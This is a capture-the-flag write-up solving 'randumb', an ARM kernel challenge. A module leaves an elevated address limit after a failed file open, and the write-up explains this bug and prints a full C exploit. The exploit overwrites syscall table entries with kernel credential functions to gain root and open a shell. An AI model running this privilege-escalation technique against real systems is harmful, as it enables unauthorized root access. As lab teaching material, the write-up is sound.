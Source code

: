 # randumb (pwn, 250 + 15 pt, solved by 4 teams)
In this challenge, we're given an archive with compressed filesystem, kernel image and script for running an ARM virtual machine.
```sh
drwxrwxr-x aleph/aleph       0 2018-04-09 17:37 ./randumb/
-rwxrwxr-x aleph/aleph     272 2018-04-09 17:37 ./randumb/chall
-rwxrwxr-x aleph/aleph 2310840 2018-04-09 17:35 ./randumb/zImage
-rw-rw-r-- aleph/aleph 1059651 2018-04-09 17:37 ./randumb/rootfs.img.gz
```
After extracting the filesystem we can see `randumb.ko`, which means that we're going to pwn the kernel.

Fortunately, we don't have to reverse the binary as the chall author was nice and provided us with the source code located in `/src`.

Randumb module provides a character device `/dev/randumb` functionally similar to `/dev/urandom` with additional ioctls used for configuration. By setting appropriate config, we can enable debug output which is written to `/tmp/randumb.log`.
The function `debug_msg` looks quite interesting:
```c
static int debug_msg(char *msg, ...) {
        // [...]
        old_fs = get_fs();
        set_fs(KERNEL_DS);

        file = filp_open(DEBUG_FILE, O_WRONLY|O_CREAT|O_APPEND, 0644);

        if (IS_ERR(file))
                return -EINVAL;
        // [....]
}
```
Functions called by `debug_msg` (opening file, writing to file) are normally called from user mode. Thus those functions have to validate pointers passed to them. Otherwise users would be able to leak kernel memory. In order to bypass those checks, `set_fs` is used to increase the `addr_limit` in `thread_info` struct. From this moment, all pointers passed to syscalls either from user or kernel space will be valid.

After doing this, function tries to open `/tmp/randumb.log` file for writing. If opening file fails, function immediately returns. And this is where the vulnerability occurs. Function doesn't restore `old_fs` before returning. If we can trigger this, we would be able to write into arbitrary memory with `read` syscall.

OK, but how to cause an error when trying to open a file? Fortunately, if we try to open a directory file in `O_WRONLY` mode it will return an error, so the only thing we have to do is to create a directory `/tmp/randumb.log`.

To become root, we're going to use standard `commit_creds(prepare_kernel_cred(0))`. To call those functions from userspace we'll overwrite entries in syscall table.

All those things lead us to final exploit:
```c
#include "randumb.h"
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/stat.h>

struct settings {
    int charset;
    int debug;
    int debug_time;
    int debug_uid;
};

void* get_symbol(char *symbol){
    FILE *f = fopen("/proc/kallsyms", "r");
    char c;
    char buf[0x100];
    void *addr;

	while (fscanf(f, "%p %c %s\n", &addr, &c, buf) > 0) {
		if (!strcmp(buf, symbol))
			return addr;
	}
	return NULL;
}

int main() {
    // Try to create /tmp/randumb.log directory
    if (mkdir(DEBUG_FILE, 0) < 0) {
        return -1;
    }
    int fd = open("/dev/randumb", O_RDONLY);
    if (fd < 0) {
	    printf("Failed to open");
        return fd;
    }

    struct settings set = {
        .charset = CHARSET_NONE,
        .debug  = DEBUG_ALL,
        .debug_time = DEBUG_ALL,
        .debug_uid = DEBUG_ALL
    };

    // Enable debug mode
    int x = ioctl(fd, IOCTL_SET_SETTINGS, &set);
    if (x < 0) {
	    printf("Unable to set settings");
        return -1;
    }

    void *sys_table = get_symbol("sys_call_table");
    void *prepare = get_symbol("prepare_kernel_cred");
    void *commit = get_symbol("commit_creds");

    printf("sys_call_table %p\n", sys_table);
    printf("prepare_kernel_cred %p\n", prepare);
    printf("commit_kernel_creds %p\n", commit);

    // Make sure that debug_msg is called
    char c;
    int len = read(fd, &c, 1);

    // Use pipe as a way to read data from descriptor
    int fds[2];
    pipe(fds);

    int out = fds[0];
    int in = fds[1];

	write(in, &prepare, 4);
	// Overwrite syscall 100
	read(out, (int*)(sys_table) + 100, 4);

	write(in, &commit, 4);
	// Overwrite syscall 101
	read(out, (int*)(sys_table) + 101, 4);

    // creds = prepare_kernel_cred(0)
    int creds = syscall(100, 0);
    // commit_creds(creds);
    syscall(101, creds);

    if (getuid() != 0) {
        printf("pwn failed!\n");
        return -1;
    }
    printf("pwned\n");

    const char *args[] = {"/bin/sh", NULL};
    execve(args[0], args, NULL);
    return 0;
}
```

The last thing is to compile and run the exploit. Since there's no GCC on the VM itself, we have to compile it locally and send by copy-pasting into the terminal (I recommend gzip and base64 for that).
```bash
arm-linux-gnueabi-gcc pwn.c -static -o pwn
```
This is not an optimal solution since the binary it generates is quite big, but it avoids writing assembly.

Overall this was a really fun challenge and we've got the first blood. ;)
